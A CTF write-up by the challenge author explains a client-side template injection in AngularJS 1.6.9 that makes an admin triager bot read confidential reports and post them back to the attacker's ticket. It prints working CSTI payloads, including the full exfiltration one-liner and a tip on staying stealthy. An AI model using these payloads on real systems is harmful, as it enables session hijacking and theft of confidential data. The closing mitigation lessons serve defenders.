

> **Author's note.** This is a challenge I designed and built myself for the
> **SoterCTF** platform. If you'd rather play it before reading the solution,
> stop here and come back after, you can find the challenge here:. If you already solved it (or you're just
> curious about the internals), enjoy the tour.
{: .prompt-info }

> **Scenario recap.** The challenge description tells you up-front that the
> target company is **HelixCorp**, and that their most critical confidential
> report is sitting in the triager's inbox. You're here to figure out *how* to reach a report
> only the triage staff can read.
{: .prompt-tip }

## Challenge Info

| Field        | Value                                              |
|--------------|----------------------------------------------------|
| Platform     | SoterCTF                                           |
| Challenge    | Template Hunter                                    |
| Category     | Web                                                |
| Difficulty   | Medium                                             |
| Vector       | Client-Side Template Injection (AngularJS 1.6.9)   |
| Pivot        | Session riding through automated triager bot       |

---

## TL;DR

1. Register as a hunter and submit a ticket to any program.
2. An automated "triager bot" visits every ticket page you create, and revisits if you post a new comment.
3. The ticket page wraps user-submitted content in `ng-app="triagerx"` and loads **AngularJS 1.6.9**, which has no expression sandbox.
4. EJS's server-side HTML escape catches `<`, `>`, `&`, `"`, `'`, but **not** `{` and `}`. So `{{ ... }}` inside a ticket description is compiled client-side as an AngularJS expression.
5. The `/api-docs` page publicly documents `GET /api/internal/reports` and `GET /api/internal/reports/:id`. Both require `admin` role, which the bot has.
6. Inject a payload that, running as the bot:
   - Lists `/api/internal/reports` and picks the HelixCorp entry (the one we were told to go after)
   - Reads the full body via `/api/internal/reports/:id`
   - POSTs it as a comment back to our own ticket
7. Refresh, read the flag.


---

## Reconnaissance

### Landing page

HunterZero brands itself as *"where every bug is ground zero"*, a Hacker0ne parody. The eyebrow chip above the hero even winks at us: *"Bug bounty platform · v3.2.1 · still on AngularJS for some reason"*. File that away.

{: .shadow }
_Landing page. Notice the version chip: "v3.2.1 · still on AngularJS for some reason"._

Two things to keep in mind:

- The platform advertises a **triager bot** that reviews submissions within seconds.
- An **API** link in the top nav points to `/api-docs`. We'll come back to it.

### The programs

Ten parody programs to pick from: Goggle, Amazone, Mehta, Tezla, Discrod, Spaceship X, GitGud, NexGen Cloud, VaultPay, and, the one the challenge asks us to hit, **HelixCorp**. 

{: .shadow }
_Ten programs, each with a brand accent color and a one-liner referencing the real-world company it's parodying._

### The target: HelixCorp

Opening the HelixCorp program page shows a standard bug bounty scope: in-scope subdomains, payout tiers, submission guidelines, and a big "Submit a report" button.

{: .shadow }
_HelixCorp's program page. $500–$15,000 range, 4 severity tiers, and an "Active program" badge. The button takes us to the report form._

### Registering and submitting a first ticket

Registration is open: no invite, no email verification, and once logged in we can submit a report to any program.

{: .shadow }
_No email verification, no invite code. Pick a handle, pick a password, you're in._

{: .shadow }
_The report form. Title, severity, description. A sidebar with "Tips from the triage bot" even tells us the bot polls every 15 second._

Submitting lands us on `/tickets/:id`. Within a few seconds, a `triager_bot` user (tagged **TRIAGER**) drops a standard acknowledgement in the Activity panel:

> *"Thanks for the submission, triage bot here. I've reviewed the report and queued it for the security team. If we need more information (reproduction steps, affected endpoints, tooling used) we will reply on this thread. Happy hunting."*

{: .shadow }
_Right after submitting, the bot visits our ticket and leaves a stock reply. That "Triager" badge, and the fact that the reply arrived automatically, is the loop we'll exploit._

Two takeaways from that one screen:

1. The bot **authenticates as an admin** (the "Triager" badge next to the username).
2. The bot **visits the ticket page we just created**. Not a sanitized preview, the live rendered page. Anything we put in the description or a comment gets rendered in *its* browser with *its* cookies.

That's our pivot. If we can execute JavaScript on the ticket page, we execute it as the bot.

### The API docs

Clicking **API** in the nav opens `/api-docs`, a proper, documented API surface.

{: .shadow }
_The `/api-docs` page. Session-cookie auth, endpoints labelled `hunter` (public) or `triager` (admin), complete with request/response examples._

The page documents two classes of endpoints:

- **Hunter endpoints** (any logged-in user): `GET /api/tickets/:id/comments`, `POST /tickets/:id/comments`.
- **Triager endpoints** (admin only): listed *for transparency*, including:

```http
GET /api/internal/tickets/pending
POST /api/internal/tickets/:id/review
GET /api/internal/reports
GET /api/internal/reports/:id
```

Those last two are the prize. They return **confidential vulnerability reports**, body included. But they require an admin session cookie, which we don't have.

The docs even give us a sample UUID for a report. Trying it directly:

```http
GET /api/internal/reports/<uuid>
Cookie: connect.sid=<our-hunter-session>

→ 403 Forbidden
```

---

## Finding the vulnerability

### Ticket renderer source

View-source on `/tickets/:id`:

```html
<!--
  HunterZero v3.2.1 — Legacy ticket renderer
  Uses AngularJS for dynamic content features (status polling, live updates).
  TODO: migrate to React in Q3 2024
-->
<div ng-app="triagerx">
  <article class="card ticket-body">
    <h3>Description</h3>
    <div class="ticket-description">MY DESCRIPTION HERE</div>
  </article>
  ...
  <div class="comment-body">COMMENT TEXT</div>
  ...
</div>
<script src="/js/angular.min.js"></script>
<script>angular.module('triagerx', []);</script>
```

Three things jump out:

1. There's an **`ng-app` root** wrapping both the description and the comments.
2. The loaded Angular is **`/js/angular.min.js`**, fetch it and look at the version banner. It's **AngularJS 1.6.9**.
3. The comment apologizes for it ("legacy").

AngularJS 1.6.0+ **removed the expression sandbox**. To understand what that means and why it matters, a bit of context.

**What the sandbox was**

From version 1.0 to 1.5, AngularJS shipped with a custom expression evaluator that tried to prevent access to dangerous globals inside template expressions. The logic: if an attacker managed to inject `{{ ... }}` into a page, the sandbox would block access to `window`, `document`, `Function`, and `constructor`, limiting the worst-case outcome to leaking scope data rather than executing arbitrary code.

**Why it never worked**

The problem is that JavaScript is deeply self-referential. Every object in the language carries prototype properties that eventually point back to `Function`. Researchers started publishing sandbox bypasses almost immediately after AngularJS gained traction. Mario Heiderich documented the first public escape in 2012. By 2015 and 2016, Gareth Heyes, James Kettle, and others at PortSwigger had catalogued dozens of bypass chains across every minor release (1.2, 1.3, 1.4, 1.5). The core problem, as PortSwigger framed it: the sandbox was a client-side restriction in a language that gives every expression reflexive access to its own runtime. There is no principled way to wall off `Function` when `"".constructor.constructor` evaluates to it. Every patch was just a new blacklist entry, and JavaScript can always route around a blacklist.

**The removal**

In AngularJS 1.6.0 (December 2016), the team formalised what was already practically true and dropped the sandbox entirely. The official migration note reads:

> We no longer consider it the job of AngularJS's expression parser to prevent XSS.

Their reasoning was honest: the sandbox gave developers a false sense of security. Applications that exposed user-controlled input to Angular templates were already vulnerable; the sandbox just made the exploit take an extra step. Keeping it meant maintaining an endless patch cycle for something that provided no real protection. Responsibility was pushed to application developers: treat any reachable template boundary as an XSS boundary, period.

**What this means in practice**

Without a sandbox, `constructor.constructor` is fully accessible inside any `{{ ... }}` expression. The `constructor` property on any string or number points to the type constructor (`String`, `Number`). The constructor of `String` is `Function`. So:

```javascript
// "any string".constructor  =>  String
// String.constructor        =>  Function
// Function("code")()        =>  executes arbitrary code
```

In template syntax:


```
{{constructor.constructor('alert(document.domain)')()}}
```


This is equivalent to calling `eval()` with no restrictions. Any `{{ ... }}` that reaches user input inside an `ng-app` boundary is XSS, just delivered through the template engine instead of raw HTML.

### What EJS escape catches (and what it doesn't)

Looking at the server code (hypothetically, or by trial):

```ejs
<div class="ticket-description"><%= ticket.description %></div>
```

The `<%= %>` operator in EJS HTML-escapes its output, but only these characters:

| Char | Escaped |
|------|---------|
| `<`  | `&lt;`  |
| `>`  | `&gt;`  |
| `&`  | `&amp;` |
| `"`  | `&quot;`|
| `'`  | `&#39;` |

Notice what's **missing**: `{` and `}`. Because they aren't special in HTML. They *are* special in AngularJS, which parses them client-side, after the server's work is done.

This is **CSTI** (Client-Side Template Injection). Classical XSS mitigations don't catch it.

---

## First CSTI: confirming the primitive

Submit a new ticket with description:


```
{{7*7}}
```


{: .shadow }
_The telltale `49` where we wrote `{{7*7}}`. AngularJS evaluated the expression client-side. We own the template engine._

Confirmed. Now let's get code execution. Standard AngularJS 1.6+ payload:


```
{{constructor.constructor('alert(1)')()}}
```


But wait, if *we* view the page, `alert(1)` fires in **our** browser. That doesn't help; we already have our own session. What we want is for the **bot** to execute our payload, because the bot is `admin`.

The bot visits our ticket automatically. So when it renders the page, the same CSTI fires, but with the triager's cookies attached to every subsequent `fetch()`.

> Don't use `alert()` in the payload for the bot. A modal dialog blocks the Puppeteer page and makes the bot look suspicious (or time out). We want stealth: only `fetch()`.
{: .prompt-warning }

---

## Building the exploit

### Step 1: read the report list

```javascript
fetch('/api/internal/reports').then(r => r.json()).then(d => {
  // d.reports[] contains {id, title, company_name, ...}
});
```

Wrapping that in an AngularJS expression is ugly because `=>` arrow functions, `.then()`, and object literals all need to be expressed within the expression parser. The cleanest trick is to break out into a full Function body:

```javascript
constructor.constructor('<ARBITRARY_JS>')()
```

Where `constructor.constructor` on a string resolves to the JavaScript `Function` constructor, which builds a new function from a string and calls it. Same technique that powers every post-1.6 AngularJS XSS in the wild.

### Step 2: target the HelixCorp report specifically

The challenge description told us up-front that HelixCorp is the target, so filtering the response is trivial: `d.reports.find(x => x.company_name === 'HelixCorp')`, grab its `id`, and move on. No guessing, no enumeration.

### Step 3: exfiltrate back into our own ticket

The `POST /tickets/:id/comments` endpoint accepts JSON. The bot is logged in as `admin`, but `admin` users are allowed to comment on any ticket (that's literally what triagers do). So the bot can post a comment on our ticket, containing the stolen report body.

We also need to know our own ticket ID from inside the payload. Easiest: read it from `location.pathname`.

### The full payload

Put this **as the description** (or a comment) of a ticket we own:


```handlebars
{{constructor.constructor("fetch('/api/internal/reports').then(r=>r.json()).then(d=>{var t=d.reports.find(x=>x.company_name==='HelixCorp');return fetch('/api/internal/reports/'+t.id).then(r=>r.json())}).then(d=>{var id=location.pathname.split('/').pop();fetch('/tickets/'+id+'/comments',{method:'POST',headers:{'Content-Type':'application/json'},body:JSON.stringify({content:d.report.content})})})")()}}
```


Collapsed and commented:

```javascript
// 1. list every confidential report
fetch('/api/internal/reports')
  .then(r => r.json())
  // 2. find the HelixCorp one
  .then(d => {
    const t = d.reports.find(x => x.company_name === 'HelixCorp');
    return fetch('/api/internal/reports/' + t.id).then(r => r.json());
  })
  // 3. POST the full body back as a comment on *our* current ticket
  .then(d => {
    const id = location.pathname.split('/').pop();
    fetch('/tickets/' + id + '/comments', {
      method: 'POST',
      headers: { 'Content-Type': 'application/json' },
      body: JSON.stringify({ content: d.report.content })
    });
  });
```

Wrap the whole string into `constructor.constructor("<js>")()` and you have a single AngularJS expression.

---

## Firing the exploit

### Submit the ticket

{: .shadow }
_The full payload pasted into a new comment on our ticket. One-liner, one `Post comment` click away from the bot executing it as admin._

The submission lands normally. We see our own description rendered as nothing visible (the expression evaluates in *our* browser too, but `constructor.constructor('...')()` returns `undefined` and Angular prints nothing). That's fine, we're not the target.

### Wait for the bot

Within seconds, the triager bot visits the page. On its side, the same expression compiles, but because its session cookie is `admin`, all three `fetch()` calls succeed: list reports → read HelixCorp → post a comment on our ticket containing the body.

Refresh the ticket. There it is: the bot posting back a **confidential report** as if it were a triage note:

{: .shadow }
_The bot obediently comments back the full HelixCorp confidential report: executive summary, technical details, impact, remediation, and at the bottom the flag: `**SoterCTF{cst1_2_adm1n_p1v0t_h3l1xc0rp_rc3_r3p0rt}**`._

---

## Why the bot doesn't self-exploit

One concern while building this: the bot's own comment contains the full report body, which is itself full of backticks, braces, and markdown-looking text. If the bot posts that comment and then another hunter's comment requeues the ticket, wouldn't AngularJS re-compile the bot's own content on the next visit and execute whatever's inside?

Poking around the rendered HTML reveals:

```html
<div class="comment-body" ng-non-bindable>
  ... bot content ...
</div>
```

`ng-non-bindable` tells AngularJS to skip compilation of a subtree. The server renders it on admin-authored comments only, so trusted content is inert and hunter content is still compiled. Realistic design: in production triage platforms, staff comments typically go through a markdown pipeline, not the live template engine.

It also means we can't simply "comment-chain" payloads to re-exploit the bot across sessions, so we always need the **description** or a **hunter comment** as the injection point.

---

## Flag

Reading the comment the bot posted:

```
## Confidential Vulnerability Report

**Report ID:** <uuid>
**Program:** HelixCorp Bug Bounty
...
---

**SoterCTF{cst1_2_adm1n_p1v0t_h3l1xc0rp_rc3_r3p0rt}**

---

*This report is classified CONFIDENTIAL.*
```

```
SoterCTF{cst1_2_adm1n_p1v0t_h3l1xc0rp_rc3_r3p0rt}
```
{: .prompt-tip }

---

## Exploit flow



---

## Lessons Learned

- **CSTI is not XSS.** Both result in arbitrary JavaScript execution in the browser, but they live at different layers. XSS injects raw HTML or script tags that the browser parses. CSTI injects expressions that a client-side template engine (Angular, Vue, Handlebars...) evaluates *after* the HTML has already been parsed. Standard XSS mitigations — HTML entity encoding, CSP, DOMPurify — operate at the HTML layer and do not see template expressions. A payload like `{{constructor.constructor('...')()} }` contains no `<`, `>`, or `"`, so it passes every HTML sanitizer cleanly and only activates when the template engine processes it.

- **AngularJS is end-of-life.** AngularJS (1.x) reached end of life on 31 December 2021. No security patches, no updates, no support. Any application still running it is accumulating unpatched CVEs on top of the structural risk described below.

- **AngularJS 1.6+ has no expression sandbox.** Versions 1.0 to 1.5 shipped a sandbox that attempted to block access to `Function`, `window`, and `constructor` inside template expressions. It was broken repeatedly by the research community and removed entirely in 1.6.0. From that version onward, any expression that reaches user-controlled input inside an `ng-app` boundary is equivalent to `eval()`: full code execution with no restrictions. The fix is to strip or escape `{{` and `}}` server-side before they reach the DOM, or to stop using AngularJS altogether.

- **`ng-non-bindable` is the correct in-place mitigation.** If removing AngularJS immediately isn't feasible, applying `ng-non-bindable` to every DOM subtree that renders untrusted content tells Angular to skip compilation for that node. It is a real attribute with specified semantics, not a workaround.

- **Session-riding bots are a privilege-escalation vector.** Any automated agent that fetches or renders user-supplied content while authenticated is an XSS target on behalf of a higher-privileged principal. The bot doesn't need to do anything unusual: just visiting the page is enough. Puppeteer-based reviewers, Slack link unfurlers, email preview renderers, CI comment bots — all follow the same pattern. If the agent is admin, the attacker gets admin for the duration of the page load.

## References

- [AngularJS 1.6.0 migration notes: sandbox removal](https://docs.angularjs.org/guide/migration#migrate1.5to1.6-ng-services-$parse)
- [PortSwigger: Client-side template injection](https://portswigger.net/research/server-side-template-injection)
- [PayloadsAllTheThings: AngularJS CSTI payloads](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Client%20Side%20Template%20Injection/README.md)
- [Mario Heiderich: "Bypassing the AngularJS Sandbox"](https://mario.heideri.ch/bypassing-angular-sandbox/)
